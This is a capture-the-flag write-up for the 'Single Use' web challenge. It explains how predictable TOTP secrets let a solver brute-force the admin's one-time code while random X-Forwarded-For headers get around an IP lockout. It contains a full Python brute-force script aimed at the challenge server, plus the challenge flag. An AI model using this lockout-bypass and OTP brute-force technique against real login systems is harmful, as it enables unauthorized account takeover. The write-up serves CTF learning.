


# Single Use

Author: Tsuto

## Description

The Amalgemated Single-Use Plasticware Co. has a new security system for their sales dashboard and boasts that nobody will ever get access to it. Can you prove them wrong?

## Solution

The first step in this challenge is to create an account and generate an authenticator code. After the account is created, both QR code and the base32 OTP code is shown.



When the OTP code is decoded it is shown to be equal to 0000008881. This OTP code follows the template of 000000(0001-9999), which gives 10,000 possible OTP codes. Using PyOTP, bruteforcing the code becomes a trivial task. However, after 10 failed login attempts, the clients IP is blocked.

To bypass this mechanism the X-Forwarded-For header must be used to trick the application into believing the origin of the request was from a different location. Using these bypasses results in the following script below.

```python
from requests import post
from base64 import b32encode
import pyotp
import random

url = "https://web-single-use-w7vmh474ha-uc.a.run.app:443/api/login"
IP = '127.0.0.1'

OTPcodes = []
for i in range(10000):
    OTPcodes.append('000000' + '{0:04}'.format(i))

for code in OTPcodes:
    totp = pyotp.TOTP(b32encode(bytes(code.strip(), 'utf-8')))
    password = totp.now()

    IP = str(random.randrange(256)) + '.' + str(random.randrange(256)) + '.' + str(random.randrange(256)) + '.' + str(random.randrange(256))
    
    headers = {"Content-Type": "application/json", "X-Forwarded-For": IP}
    data = {"code": password, "username": "admin"}

    resp = post(url, headers=headers, json=data)

    if("success" in resp.text):
        print(code.strip() + ': ' + password + ': ' + resp.text)
        exit()
```

This script finds that the admins OTP code is 0000000195. This is used to generate the TOTP and login as admin.



Flag: `USCG{5p0rk_l0v3rs_un1t3}`
